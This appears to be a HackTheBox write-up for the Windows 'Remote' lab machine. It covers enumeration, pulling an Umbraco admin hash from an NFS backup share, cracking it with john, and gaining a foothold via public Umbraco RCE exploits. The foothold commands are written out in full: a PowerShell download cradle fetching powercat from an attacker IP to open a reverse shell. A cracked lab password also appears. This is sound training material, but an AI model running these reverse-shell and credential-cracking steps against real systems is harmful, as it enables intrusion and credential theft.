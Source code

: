 ```yaml
---
title: "Remote"
date: 2025-03-25
categories: HTB
tags: ["htb walkthrough", "ctf", "remote", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "writeup", "htb"]
---
```


# Remote

# Remote

OS: Windows
Difficulty: Easy

# Summary
- password spraying FTP, SMB, winrm did not return any hits with username.txt

# Credentials
```text
admin@htb.local : baconandcheese
```

# Todo 
- [ ] FTP
- [ ] SMB
- [ ] 47001 - HTTP
- [ ] umbraco - brute force HTTP login form
- [ ] Find credentials or find Umbraco version number

# Enumeration
## Nmap
```sh
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
2049/tcp  open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## 80
![[/assets/images/remote1.png]]

http://10.10.10.180/umbraco
![[/assets/images/remote3.png]]

http://10.10.10.180/1111
![[/assets/images/remote4.png]]


## FTP
![[/assets/images/remote2.png]]

## RPC

```sh
rpcclient -U '' -N 10.10.10.180
rpcclient -U'%' 10.10.10.180
rpcclient -U '' 10.10.10.180
```

![[/assets/images/remote5.png]]
## SMB


## 2049 NFS
```sh
sudo mount -t nfs 10.10.10.180:/site_backups /home/kali/h3llanut3lla/Remote/site_backups/
```

![[/assets/images/remote6.png]]
### Finding credentials

Googling `umbraco credential files` reveals -> `/App_Data/Umbraco.sdf`

```sh
string Umbraco.sdf | grep admin
```

![[/assets/images/remote7.png]]

Copy the hash and format, and save it as `admin.sha1`

![[/assets/images/remote8.png]]

Crack with joh

```sh
john admin.sha1 -w=/usr/share/wordlists/rockyou.txt
```

![[/assets/images/remote9.png]]

![[/assets/images/remote10.png]]

![[/assets/images/remote11.png]]

# Foothold
[Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49488)

![[/assets/images/remote12.png]]

```sh
python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c "IEX (New-Object System.Net.Webclient).DownloadString("http://10.10.14.7/powercat.ps1");powercat -c 10.10.14.7 -p 9001 -e powershell"
```

```powershell
# using PowerShell to download powercat and execute a reverse shell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 10.10.14.7 -p 4444 -e powershell
```

The above didn't work changed the exploit to this. 
https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py

```sh
python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.7/powercat.ps1');powercat -c 10.10.14.7 -p 9001 -e powershell"
```

![[/assets/images/remote13.png]]

![[/assets/images/remote14.png]]


# Privilege Escalation
```sh
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

# Running services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

![[/assets/images/remote15.png]]

[TeamViewer 11.0.65452 (x64) - Local Credentials Disclosure](https://www.exploit-db.com/exploits/40342)

![[/assets/images/remote17.png]]

SeImpersonate

![[/assets/images/remote18.png]]
